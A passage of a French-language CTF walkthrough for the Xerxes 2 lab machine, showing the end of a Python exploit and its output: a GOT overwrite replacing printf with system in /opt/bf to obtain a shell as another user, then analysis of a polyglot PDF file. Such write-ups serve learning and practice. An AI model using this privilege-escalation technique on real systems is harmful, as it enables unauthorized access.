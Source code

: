 ```python
    subprocess.call(["/tmp/sh"])
else:
    print "[!] Ouch, something wen't wrong... Try harder"
```

Il ne reste alors qu'à mettre les pieds sous la table :  

```plain
delacroix@xerxes2:~$ python exploit.py
[i] devloop exploit for Xerxes 2 /opt/bf - fully automated
[*] Getting printf address in GOT with objdump
[*] GOT address for printf is 0x8049a48
[*] Launching test process to get distance between printf and system...
[*] printf is at 0xb75d3f50L
[*] system is at 0xb75c6000L
[*] Offset to system is -57168
[*] Launching the process for attack...
[*] printf is at 0xb76abf50L
[*] system must be at 0xb769e000L
[*] Overwriting printf address with system address in GOT
[*] Putting our command
[*] Enjoy your shell with euid polito :)
$ id
uid=1002(delacroix) gid=1002(delacroix) euid=1001(polito) egid=1001(polito) groups=1001(polito),1002(delacroix)
```

POUNED !  

Troisème énigme
---------------

On trouve dans le dossier personnel de *polito* un fichier PDF particulier :  

```plain
$ file polito.pdf
polito.pdf: DOS/MBR boot sector
```

Avec *hexdump* on s’aperçoit que le fichier contient deux headers PDF, l'un avec le texte suivant :  

```plain
--WARNING--
Unauthorized file access will be reported..
XERXES wishes you a most productive day
```

et l'autre qui s'affiche depuis un lecteur PDF quelconque (ex: *Okular*) et contient un *QRcode* [en référence à Xerxes 1](http://devloop.users.sourceforge.net/index.php?article72/solution-du-ctf-xerxes).  

Mais il n'y a rien à voir du côté du *QRcode* qui correspond seulement au texte *"XERXES is watching..."*  

L'image du code est en grayscale et l'ancien CTF cachait des données dans le canal alpha qui n'existe pas ici.  
